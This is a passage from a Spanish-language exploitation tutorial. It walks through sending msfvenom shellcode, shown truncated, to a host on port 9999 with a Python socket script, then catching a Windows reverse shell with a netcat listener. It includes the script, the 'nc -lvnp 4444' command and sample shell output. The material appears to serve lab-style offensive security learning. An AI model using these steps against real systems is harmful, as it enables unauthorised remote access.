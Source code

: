 Tu script ahora queda así:

```python
import socket

ip = "192.168.1.10"
port = 9999

# Payload generado con msfvenom
payload =  b""
payload += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d\x13\x01..."
# <- aquí va el shellcode completo generado

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

---

#### ✅ Paso 4: Abrir tu listener (Netcat)

Antes de ejecutar el script, debes estar **esperando la conexión**.

```bash
nc -lvnp 4444
```

📌 Este comando crea un listener en el puerto 4444.

🧠 Espera que la víctima (el exploit) conecte hacia ti.

---

#### ✅ Paso 5: Ejecutar el exploit

```bash
python3 exploit.py
```

✅ Si el exploit funciona, en tu terminal con Netcat verás algo como:

```
connect from 192.168.1.10
Microsoft Windows [Version...]
C:\>
```

🎉 ¡Has conseguido una **reverse shell** real!

---

### 📌 Ejemplo completo (resumen del script)

```python
import socket

ip = "192.168.1.10"
port = 9999

# Payload generado con msfvenom
payload =  b""
payload += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d\x13\x01\x00..."

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```
